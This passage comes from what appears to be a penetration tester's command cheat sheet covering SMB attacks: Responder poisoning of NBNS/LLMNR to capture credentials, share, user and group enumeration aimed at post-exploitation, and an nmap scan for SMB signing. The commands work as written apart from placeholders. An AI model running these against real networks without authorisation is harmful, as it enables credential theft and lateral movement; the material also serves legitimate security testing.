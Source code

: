 https://www.coresecurity.com/corelabs-research/open-source-tools/impacket
__________
### 11. responder NBNS LLMNR
```
/data/hacking/Responder/Responder.py -I eth0 -wrfFd --lm -i [YOUR IP]
```
**- linux,passwords,smb,MitM,privilege escalation**
#### References:

https://github.com/SpiderLabs/Responder
https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/
__________
### 12. List smb shares on a target host domain and pass are optional, % seperates user from pass
```
smbclient -L [TARGET] -U [DOM]/[USER]%'[PASS]'
```
**- linux,enumeration,smb**
#### References:

https://www.samba.org/samba/docs/man/manpages-3/smbclient.1.html
__________
### 13. Get a listing of all users and groups for targeting your post exploitation
```
enum4linux.pl -a -u [USER] -p [PASS] [TARGET] | tee [CLIENTNAME].domainenum
```
**- linux,enumeration,user information,smb**
#### References:

https://labs.portcullis.co.uk/tools/enum4linux/
__________
### 14. Get a list of all the users in the domain from a full dump
```
cat [CLIENTNAME].domainenum | grep "^user" | cut -d ":" -f 2 | cut -d "]" -f 1 | cut -d "[" -f 2 > userlist.txt
```
**- linux,enumeration,user information,smb**
#### References:

http://tldp.org/HOWTO/Bash-Prog-Intro-HOWTO.html
__________
### 15. nmap smb signing
```
nmap --script smb-security-mode.nse -p445 -iL [hostsfile] -oA nmap-SMBSigning
```
**- linux,networking,scanning,smb,MitM**
#### References:
